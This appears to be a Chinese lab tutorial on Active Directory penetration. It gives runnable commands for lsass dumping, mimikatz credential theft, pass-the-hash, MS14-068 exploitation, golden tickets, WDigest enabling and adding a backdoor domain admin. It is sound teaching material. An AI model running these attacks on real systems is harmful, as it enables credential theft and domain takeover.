



域渗透学习

- - -

# 域渗透学习

\[TOC\]

在渗透测试过程中，我们经常会遇到以下场景：某处于域中的服务器通过路由做端口映射，对外提供 web 服务，我们通过 web 脚本漏洞获得了该主机的 system 权限，如果甲方有进一步的内网渗透测试需求，以证明企业所面临的巨大风险，这个时候就需要做内网的域渗透。通常，我们是以获得域控制器的权限为目标，因为一旦域控制器沦陷，整个内网就尽在掌握中了。

## 一、环境配置

在开始之前，需要先配置好⼀个域环境。因为用于教学测试，所以只需一台域控和一台加入域内的主机即可。这里我使用的是 windows server 2012 与 windows 7。通过攻击拿下 windows 7 或者直接操控 windows 7，来模拟被攻陷的主机，从而进行域方面是渗透学习。

windows server 2012 存在 Administrator 用户 (域控超级管理员用户)、Windows7 的 dada 用户 (加入管理员组的用户)、Windows7 的 xiao 用户 (普通域用户)

## 二、域内信息收集

所有渗透测试的第⼀步，都是信息收集，域也不例外。

### ①确定环境

在域内需要先确定被攻击主机的当前内网环境，如拓扑等信息，可以使用以下命令来快速定位。

```plain
route print     # 查看路由信息
arp -a  # 查看域中所有的设备
ipconfig /all    # 判断当前是否在域环境中，看 dns 后缀和 dns 服务器
ping "域名"
net time /domain       #查看系统时间（判断主域）
```

-   在渗透时，拿到的数据记得保存，不要看一眼就没了，也尽量不要重复查看，所有的动作都要求干净利索。

### ②域内信息

除了了解内网环境外，还可以通过命令来直接查看域的相关消息。

#### 1, net view

查看本地工作组/域环境中的设备

查看域内在线主机，此时可以看⻅域内的两台机器，⼀台被攻陷的 XZM-PC 和域控 AD。

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172301189-1807124974.png)

如果报错 6118 =>

1、关闭防火墙；2、开启服务（Computer Browser、Server、Workstation）；3、重新打开 CMD 即可

#### 2, net view /domain

查看当前有几个域。可以看见此时有一个 MAO 域。

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172302434-1357477610.png)

#### 3, net user /domain

查看域内⽤户，可以看⻅除了常⻅的管理员和来宾，域内还有⼀个 krbtgt ⽤户，这个⽤户⾮常重要，稍后会讲到。

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172302656-1969339242.png)

#### 4, net group /domain

查看域的组别信息

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172302888-1091292921.png)

这⾥可以看⻅组较多，这⾥列出⼏个关键组了解⼀下。

\*Domain Admins 管理员组

\*Domain Computers 主机名

\*Domain Controllers 域控组

\*Enterprise Admins 企业级管理员

可以通过 `net group 组名 /domain` 来查看组内⽤户。

#### 5、whoami /user

确定自身权限

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172303131-1570202454.png)

-   500：administrator
-   501：guest
-   1000+：普通用户

#### 6, net group "domain controllers" /domain

查看域控管理员组的成员 (域内高权限组)

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172303390-1973119014.png)

-   ​ Domain Admins 域控管理员组 (高权限)
-   ​ Domain Computers 加入域内的主机成员
-   ​ Domain Controllers 域控 (高权限)
-   ​ Domain Users 域内普通用户
-   ​ Enterprise Admins 企业管理员 (高权限)

#### 8、systeminfo | findstr "KB"

查看补丁信息

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172303601-1345024957.png)

#### 7、定位域控

域控作为域的最⾼权限，⾃然是⾸要的攻击⽬标，可以通过刚才的⼀些已知的命令，来找到域控。

通过 `net user /domain` 来查看域内的账户；通过 `net group "domain controllers" /domain` 来查看域控。自身权限可以使⽤ `whoami /user` 命令快速查看。

## 三、本地认证

### ①Windows 本地认证

在开始攻击之前，需要先了解⼀下 windows 的认证机制。

通过操作系统的学习，已知 `C:\Windows\System32\config\SAM` 是储存主机账号密码的数据库⽂件。

windows 登⼊的过程其实很简单，启动 winlogin.exe，当⽤户输⼊账号密码后，账号密码将会发送到 lsass.exe，lsass.exe 将会把⽤户输⼊的明⽂，转换为 NTLM hash 与，SAM ⽂件存储的数据做⽐较，⽐较成功即登⼊成功。

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172318524-507973793.png)

> Windows Logon: 是 wWindows 操作系统的用户登录程序，负责管理用户的登录和登出过程。它提供了用户输入账号和密码的界面，也称为登录页面或登录屏幕。
> 
> lsass: 是微软 windows 系统的安全机制，是 Windows 操作系统中的一个关键进程，负责处理本地安全和登录策略。它在 Windows 系统启动时自动启动，并一直运行在后台。

### ②NTLM hash

当然，windows 本身是不会存储明⽂密码的，在 SAM ⽂件中所存储的是密码的散列值，⽽在登⼊的时候，也是先将⽤户输⼊转换为散列值，才进⾏对⽐的。

Hash 一般存储在两个地方：

-   1、SAM 文件，存储在本机 => 对应本地用户
-   2、NTDS.DIT 文件，存储在域控上 => 对应域用户

#### 1、加密过程

⽤户输⼊的明⽂密码 => ⼗六进制 => unicode => md4 算法 => NTLM hash。可以看⻅，整个加密过程还是较为简单的。

#### 2、存储的密码格式

例：administrator:500:LM hash:NTLM hash

可以看⻅，先是⽤户名，再是该⽤户的 SID，后⾯跟着 LM hash 和 NTLM hash

> 如果 LM Hash 是 AAD3B 开头，则是空密码或者未设置密码。
> 
> LM Hash 全名为“LAN Manager Hash”，是微软为了提⾼ Windows 操作系统的安全性⽽采⽤的散列加密算法，其本质是 DES 加密。尽管 LM Hash 较容易被破解，但是为了保证系统的兼容性，Windows 只是将 LM Hash 禁⽤了 (从 Windows Vista 和 Windows Server 2008 版本开始，Windows 操作系统默认禁⽤ LM Hash)，LM Hash 明⽂密码被限制在 14 位以内，也就是说，如果要停⽌使⽤ LM Hash，将⽤户的密码设置为 14 位以上就好了。

#### 3, lsass.exe

在内⽹渗透进⾏横向移动和权限提升时，最常⽤的⽅法是通过 `dump 进程 lsass.exe，从中获得明⽂⼝令或者hash`。lsass.exe（Local Security Authority SubsystemService）是⼀个系统进程，⽤于微软 Windows 系统的安全机制，它⽤于本地安全和登陆策略。在进程空间中，存有着机器的域、本地⽤户名和密码等重要信息。但是需要`⾸先获得⼀个⾼的权限`才能对其进⾏访问。

## 四、从 lsass.exe 获取密码

### ①Procdump

procdump 是⼀款命令⾏⼯具，主要⽤途是监视应⽤程序的 CPU 异常动向，并且对内存做⼀个转储。上⾯提到了密码的明⽂与密⽂都存储在 lsass ⾥，所以使⽤ procdump 即可将 lsass 的内存资源转储出来。以下是它的⼀些参数。

#### 1、相关参数

-   \-ma：写⼊“完整”转储⽂件。【包括所有内存 (映像、映射和专⽤)；包括 (进程、线程、模块、句柄、地址空间等) 的所有元数据】
-   \-accepteula：使⽤该命令行选项时，表示⾃动接受 Sysinternals 许可协议。

#### 2、简单使用

使⽤⽅式⾮常简单，指定参数和要转储内存的⽂件后，再指定保存的⽂件名，即刻获得后缀名为 .dmp 的内存转储⽂件。(需要管理员权限的命令行窗口才可操作)

```plain
procdump.exe -ma -accepteula lsass.exe passwd.dmp   #把内存当中的 HASH 导入到本地，并命名为 passwd.dmp
```

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172306699-219256483.png)

正常我们是打不开 passwd.dmp 这个文件的，要是以记事本打开也都是乱码。这时，我们就要用到另一个小工具 Mimikatz 进行对 passwd.dmp 进行读取

### ②Mimikatz

Mimikatz 是法国⼈ benjamin 开发的⼀款功能强⼤的轻量级调试⼯具，本意是⽤来个⼈测试，但由于其功能强⼤，能够直接读取 WindowsXP-2012 等操作系统的明⽂密码⽽闻名于渗透测试，可以说是渗透必备⼯具。

#### 1、相关参数

因为 mimikatz 参数较多，这⾥只介绍常⽤的参数。

```plain
mimikatz # ::    显示帮助指令
mimikatz # cls    清空
mimikatz # log      记录所得到的信息
mimikatz # hostname         查看主机名
```

-   **privilege 模块**

(需要管理员权限的命令行窗口才可操作)

```plain
mimikatz # privilege::debug      提升 mimikatz 权限（通过 mimkatz 自带的漏洞脚本对当前设备进行攻击）
```

-   **sekurlsa 模块**

```plain
1、提取当前系统中已登录用户的密码（该方法需要先提升 mimikatz 权限）
mimikatz # sekurlsa::logonpasswords     获取所有账户密码（比 procdump 的使用更简单）
2、抓取用户 NTLM 哈希 (读取内存的 HASH-列出 LM 和 NTML 凭证)
mimikatz # sekurlsa::msv
3、加载 dmp 文件，并导出其中的明文密码
mimikatz # sekurlsa::minidump passwd.dmp    切换环境
mimikatz # sekurlsa::logonpasswords full    列出所有可用的凭据
4、导出 lsass.exe 进程中所有的票据
mimikatz # sekurlsa::tickets /export
5、列出 kerberos 凭证
mimikatz # sekurlsa::kerberos    获取 kerberos 认证信息 (账户密码等)-域内
6、pass-the-hash 哈希传递
mimikatz # sekurlsa::pth
```

-   **lsadump 模块**

```plain
mimikatz # lsadump::sam     查看 sam 文件内容获取用户名和 NTLM hash
mimikatz # lsadump::secrets      获取当前用户密码
mimikatz # lsadump::dcsync /user:krbtgt     获取域控上 krbtgt ⽤户信息
```

-   **kerberos 模块**

```plain
1、列出系统中的票据
mimikatz # kerberos::list       列出票据
mimikatz # kerberos::tgt        列出票据        
2、清除系统中的票据
mimikatz # kerberos::purge      清除票据
3、导入票据到系统中
mimikatz # kerberos::ptc 票据路径
```

-   **process 模块**

```plain
mimikatz # process::start command     启动进程
mimikatz # process::stop command      结束进程
mimikatz # process::list       列出进程
```

> Mimikatz 因为效果太好导致会被杀毒警报，若是想在⽬标机器运⾏先考虑是否需要对 Mimikatz 做免杀处理。

#### 2、简单使用

Mimikatz 能够从内存中提取纯⽂本密码，通过参数 `sekurlsa::minidump` 载⼊刚才 procdump 获取的 dmp ⽂件后，就可以使⽤ `sekurlsa::logonpasswords full` 等命令，对密码进⾏读取。实现效果如下图：

```plain
mimikatz.exe
sekurlsa::minidump ./passwd.dmp
sekurlsa::logonpasswords full
```

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172306087-939485858.png)

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172304124-1165193945.png)

> 在这⾥可以看⻅图中带有管理员信息，若是中真实环境中拿到此信息基本就宣告着结束。

#### 3、进阶使用

①利用 procdump 导下来的 dump 文件与 mimikatz 配合使用获取凭据

```plain
mimikatz # log      //记录所得到的信息
mimikatz # sekurlsa::minidump passwd.dmp     //切换环境（挂载 dmp 文件）
mimikatz # sekurlsa::logonpasswords     //列出所有可用的凭据
```

②直接利用 minikatz 获取凭据（需要管理权限）

```plain
mimikata # log          //记录所得到的信息
mimikatz # privilege::debug       //提权（获得 mimikatz 程序的特殊操作）
mimikatz # sekurlsa::msv     //提取内存的 HASH 值
mimikatz # sekurlsa::logonpasswords      //列出所有可用的凭据
```

## 五、实验：PTH（pass-the-hash）哈希传递

### ①简介

哈希传递是⼀种⿊客技术，攻击者可⽤使⽤⽤户密码的 hash 对远程服务器进⾏身份验证，扩⼤战果。其实就是⼀种 `撞库` 的⾏为。在拥有 NTLM hash 的情况下，我们可以⾮常轻易的使⽤ mimikatz 的 `sekurlsa::pth` 发起⼀次 PTH。

-   攻击缺陷：hash 要保持静态（不修改密码）
-   适⽤于：域/⼯作组、可⽤获取 hash 但是不能爆破 hash，且内⽹有相同密码的机器。
-   KB2871997：修复了普通⽤户能够 pth，但是管理员除外，系统 >= win server 2012 时，⽆法通过 lsass 进程中抓取明⽂密码。

> 因 KB2871997 修复了普通⽤户能够 pth，所以需要使⽤ privilege::debug 来提升权限（在⾼权限终端下）。

### ②基本条件

使⽤ mimikatz 的 sekurlsa::pth 模块⾄少需要知道以下条件：

-   pth 的对象：使⽤ `net user /domain` 等命令即可查看域内⽤户信息
-   域名：使⽤ `net view /domain` 等命令即可查看域名
-   NTLM hash：可以通过使⽤ procdump 配合 mimikatz 获取

```plain
补充：
① reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f    #开启密码抓取

②  rundll32 user32.dll,LockWorkStation   # 强制锁屏，为了让用户重新登录从而可以抓取 lsass.exe 文件中的密码
```

### ③适用条件

适用于无需用户密码，只能拿到域控的 NTLM Hash，而且无法解密的情况。

### ④信息收集

寻找 pth 的对象 => Administrator

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172304353-553290201.png)

查看管理员组成员 => 选择攻击 Administrator

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172304638-726631175.png)

域名 => MAO

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172304880-1150251025.png)

拿到管理员的 ntml hash => 570a9a65db8fba761c1008a51d4c95ab

```plain
其实通过 mimikatz.exe，啥都满足了：
sekurlsa::minidump ./passwd.dmp
sekurlsa::logonpasswords full
```

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172305175-695771125.png)

### ⑤发起攻击

#### 法一：mimikatz 直接 pth

```plain
sekurlsa::pth /user:<pth 的对象> /domain:<域名> /ntlm:<ntlm hash> [/run:name]

privilege::debug
sekurlsa::pth /user:Administrator /domain:MAO /ntlm:570a9a65db8fba761c1008a51d4c95ab /run:cmd
```

拿下域控权限。(如果参数都填写正确的情况下，还是无法攻击成功的话，尝试关闭 mimikatz 窗口，重新以管理员启动 cmd.exe，重新提升权限，再进行攻击。run 后面的命令不写也行，默认开启域控的 cmd.exe)

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172305511-406542361.png)

#### 法二：msf 的 psexec

```plain
search psexec
use exploit/windows/smb/psexec
show option
set rhosts 192.168.126.10
set SMBDomain MAO
set SMBUSER Administrator
set SMBpass 6f08d7b306b1dad4b75e0c8d76954a50:570a9a65db8fba761c1008a51d4c95ab   # LM:NTLM
exploit
```

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172307165-1816188126.png)

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172307744-1507419811.png)

#### 法三：凭据传递脚本获取 shell

```plain
①smbexec.py
python smbexec.py -hashes 6f08d7b306b1dad4b75e0c8d76954a50:570a9a65db8fba761c1008a51d4c95ab MAO/Administrator@192.168.126.10

②wmiexec.py
python wmiexec.py -hashes 6f08d7b306b1dad4b75e0c8d76954a50:570a9a65db8fba761c1008a51d4c95ab MAO/Administrator@192.168.126.10
```

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172308890-1103653495.png)

## 六、Kerberos 认证协议

Kerberos 是⼀种第三⽅认证协议，通过使⽤对称加密技术为客户端/服务器应⽤程序提供强身份验证。在希腊神话中 Kerberos 是守护地狱之⻔的⼀条三头神⽝，⽽这三个头分别代表着协议的三个⻆⾊，如下图所示它们分别是：

1、访问服务的 Client（发送请求的一方）

2、提供服务的 Server（接收请求的一方）

3、KDC，密钥分发中⼼，该中⼼⾥⼜包含以下两个服务：

-   AS，身份验证服务 (认证服务器)【专门用来认证客户端的身份并发放客户用于访问 TGS 的 TGT】
-   TGS，票据授权服务 (票据授予服务器)【用来发放整个认证过程以及客户端访问服务端时所需的服务授予票据】

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172300884-377195599.png)

-   DC（Domain Controller）：域控制器
-   KDC（Key Distribution Center）：密钥分发服中⼼
-   AS（Authentication Server）：认证服务器
-   TGS（Ticket Granting Server）：票据授权服务器
-   TGT（Ticket Granting Ticket）：票据授权票据

**认证概述**

1、⾸先客户端向 AS 发起请求，获得 TGT。

2、客户端使⽤从 AS 获得的 TGT，向 TGS 发起请求，TGS 成功解密 TGT 后，生成新的票据返回给客户端。

4、客户端使⽤ TGS 返回的新票据向服务器发送请求进⾏授权。

## 七、实验：PTC（pass-the-ccahe）缓存传递

如果能够拿到⽤户的 TGT，并将其倒⼊到内存，那么就可以冒充该⽤户获得其访问权限。

### ①MS14-068 漏洞

MS14-068 是密钥分发中⼼（KDC）服务中的 Windows 漏洞。它允许经过身份验证的⽤户在其 Kerberos 票据（TGT）中插⼊任意 PAC（表示所有⽤户权限的结果）。该漏洞位于 kdcsvc.dll 域控制器的密钥分发中⼼中。⽤户可以通过呈现具有改变 PAC 的 kerberos TGT 来获得票据。

> 需要⾼权限。

**影响范围**

-   Windows Server 2003、Windows Server 2008、Windows Server 2008 R2、Windows Server 2012 及 Windows Server 2012 R2
-   Windows Vista、Windows 7、Windows 8 及 Windows 8.1

**补丁编号与利⽤条件**

补丁编号：KB3011780

利⽤条件：

1.  获取到⼀台主机的权限（域内主机）
    
2.  收集到计算机域管理员⽤户的账号密码、SID、域名信息
    
3.  没打 MS14-068 补丁
    

### ②信息收集

```plain
1、域管理员⽤户的 SID
whoami /all  => S-1-5-21-863777703-696496247-1862912240-500

2、域管理员⽤户的明文密码
mimikatz.exe
sekurlsa::minidump ./passwd.dmp
sekurlsa::logonpasswords full    => Admin@123

3、域名信息（完整域名消息）
ipconfig /all
```

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172309340-876777001.png)

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172309655-263115822.png)

Windows 对大小写不敏感，所以 mao.com 和 MAO.COM 均可

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172310282-867888572.png)

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172309975-761156748.png)

### ③漏洞利用

#### 1、生成域控管理员密钥

```plain
使⽤现成的脚本来获取票据：
ms14-068.exe -u <⽤户名@域名> -s <SID> -d <ip 地址> -p <⽤户密码>

MS14-068.exe -u Administrator@MAO.COM -s S-1-5-21-863777703-696496247-1862912240-500 -d 192.168.126.10 -p Admin@123
```

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172311027-1846755783.png)

#### 2、将内存中导入生成好的票据

然后使⽤ mimikatz 的 `kerberos::ptc` 模块来载⼊票据。

```plain
mimikatz.exe
privilege::debug
kerberos::ptc TGT_Administrator@MAO.COM.ccache
```

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172312053-335059167.png)

#### 3、开启当前权限的管理员终端

使⽤ mimikatz 的 `misc::cmd` 模块，打开打开⼀个新窗⼝验证我们当前权限。

```plain
misc::cmd
dir \\192.168.126.10\c$
```

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172312626-1339677555.png)

#### 4、PsExec.exe 获取一个交互式 shell

用刚刚生成的管理员终端使用 PsExec.exe 工具获取一个交互式 shell，并创建了隶属于管理员组的用户

```plain
PsExec.exe \\192.168.126.10 cmd
ipconfig
whoami
net user carmi carmi@123 /add /domain
net group "Domain Admins" carmi /add /domain
net group "Domain Admins" /domain
```

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172313334-1602476800.png)

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172313778-1803371914.png)

## 八、实验：PTT（pass-the-ticket）黄金票据

### ①简介

KDC 的作⽤是⽣成任意⽤户的 TGT，那么问题来了，是什么条件能够让他⽣成任意⽤户的 TGT 呢？还得看 kerberos 认证的过程，在 windows 认证过程中，客户端将⾃⼰的信息发送给 KDC，然后 KDC 使⽤ `krbtgt ⽤户密码的 NTLM hash` 作为密钥进⾏加密，⽣成 TGT。

**一句话：TGT 是 KDC 使用 krbtgt 用户密码的 hash 作为密钥，加上客户端自己的信息生成的。**

那么如果获取到了 krbtgt 的密码 hash 值，是否就可以伪造任意 TGT？答案是肯定的。但因为 krbtgt 只有域控制器上才有，所以使⽤⻩⾦票据 (票据传递攻击) 意味着之前就拿到了域控制器的权限，所以⻩⾦票据可以理解为⼀个后⻔。

> Krbtgt ⽤户在域控创建完成后⾃动⽣成。
> 
> 只要 krbtgt 用户不更改密码，就可以使用黄金票据是实现任何用户的票据信息，注入到内存中。
> 
> 黄金票据在使用的过程需要同域控通信。

### ②基本条件

-   域名称、域 SID(去掉 rid)：通过 `whoami /user` 获取
-   要伪造 (目标) 的⽤户名：通过 `net user /domain` 等⽅法获取
-   krbtgt ⽤户的 hash：通过 mimikatz 等⽅法获取

### ③信息收集

mimkatz 获取 krbtgt hash（只有这一步才需要在域控上操作） => e798fdc7ba810c372ef7bffcdc8f2d13

由于 mimkatz 使用条件有点苛刻，且 mimkatz 软件问题，在命令行直接复制 mimkatz 内容可能无法成功或者直接到导致程序崩溃，那么这里可以通过生成 log 来解决。

```plain
mimikatz.exe
log
privilege::debug
lsadump::dcsync /user:krbtgt
```

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172318139-75167548.png)

域 SID(不需要权限的域 SID)： `whoami /user` => S-1-5-21-863777703-696496247-1862912240（最后的一个横线后表示用户权限。因此只需要前半部分）

伪造 (目标) 的⽤户名：`net user /domain` => Administrator

域名称（完整域名）：`ipconfig /all` => mao.com

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172314303-769138361.png)

### ③漏洞利用

管理员窗口操作

#### 1、清除原有票据

因为在⽣成票据时需要将原有的票据清空，所以⼀旦票据⽣成失败，主机也将⽆法继续访问域内信息了 (脱域)。

使⽤ `kerberos::purge` 清空票据后，就可以使⽤ kerberos::golden ⽣成票据了。

```plain
mimikatz.exe
privilege::debug
kerberos::purge     清空票据
```

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172314746-1349902051.png)

#### 2、⽣成票据

```plain
kerberos::golden /user:<要伪造的⽤户名> /domain:<完整域名> /krbtgt:<krbtgt ⽤户的 hash> /sid:<域 sid> /ticket:<⽣成的⽂件名.kirbr>

kerberos::golden /user:Administrator /domain:mao.com /krbtgt:e798fdc7ba810c372ef7bffcdc8f2d13 /sid:S-1-5-21-86377703-696496247-1862912240 /ticket:carmi.kirbr
```

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172316515-119343848.png)

#### 3、注入票据

```plain
kerberos::ptt carmi.kirbr
```

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172316969-493974440.png)

#### 4、生成域控会话

```plain
misc::cmd
whoami
dir \\192.168.126.10\c$
PsExec.exe \\192.168.126.10 cmd
ipconfig
```

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172317352-404818271.png)

[](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172317750-1661364079.png)
